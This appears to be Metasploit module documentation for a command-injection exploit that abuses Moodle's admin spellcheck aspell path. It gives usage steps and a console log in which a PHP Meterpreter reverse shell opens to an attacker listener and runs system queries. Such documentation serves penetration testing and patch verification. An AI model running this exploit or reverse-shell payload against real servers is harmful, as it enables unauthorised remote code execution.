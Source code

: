 ## Vulnerable Application

Moodle allows an authenticated administrator to define spellcheck settings via the web interface.
An administrator can update the aspell path to include a command injection. This is extremely
similar to CVE-2013-3630, just using a different variable.

This module was tested against Moodle version 3.10.0.

### Install

Moodle provides a step by step guide to install their software
[here](https://docs.moodle.org/311/en/Step-by-step_Installation_Guide_for_Ubuntu)

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploits/multi/http/moodle_spellcheck_cmd_exec`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get a shell.

## Options

### Passowrd

Password of an administrator.

### Username

Username of an administrator. Defaults to `admin`

## Scenarios

### Moodle 3.10.0 on Ubuntu 20.04

```
resource (moodle_spellcheck.rb)> use exploits/multi/http/moodle_spellcheck_cmd_exec
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
resource (moodle_spellcheck.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (moodle_spellcheck.rb)> set username admin
username => admin
resource (moodle_spellcheck.rb)> set password Adminadmin1!
password => Adminadmin1!
resource (moodle_spellcheck.rb)> set targeturi /moodle-3.10.0/
targeturi => /moodle-3.10.0/
resource (moodle_spellcheck.rb)> set payload payload/php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
resource (moodle_spellcheck.rb)> set lhost eth0
lhost => eth0
resource (moodle_spellcheck.rb)> exploit
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Moodle instance found, version unknown
[*] Authenticating as user: admin with login token Em5QrqGXT96iLHXKaTDoIwArMueav9Hq
[*] Updating aspell path
[*] Changing spell engine to PSpellShell
[*] Triggering payload
[*] Sending stage (39282 bytes) to 1.1.1.1
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:56014) at 2021-08-27 17:49:36 -0400
[*] Sleeping 5 seconds before cleanup
[*] Authenticating as user: admin with login token mPj0QEp8KtPDgm8K9PNUauMu7wdwnSFY
[*] Removing RCE from settings

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : moodle
OS          : Linux moodle 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64
Meterpreter : php/linux
meterpreter > exit
```
